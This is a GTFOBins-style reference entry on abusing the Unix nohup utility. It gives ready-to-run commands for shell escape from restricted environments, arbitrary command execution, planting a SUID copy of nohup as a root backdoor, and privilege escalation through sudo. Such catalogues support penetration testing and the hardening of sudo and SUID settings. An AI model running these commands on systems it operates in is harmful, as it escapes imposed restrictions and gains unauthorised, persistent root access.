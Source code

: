 # GTFOBin: nohup

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
```

## Command

It can be used to break out from restricted environments by running non-interactive system commands.

```
COMMAND='/usr/bin/id'
nohup "$COMMAND"
cat nohup.out
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which nohup) .

./nohup /bin/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
```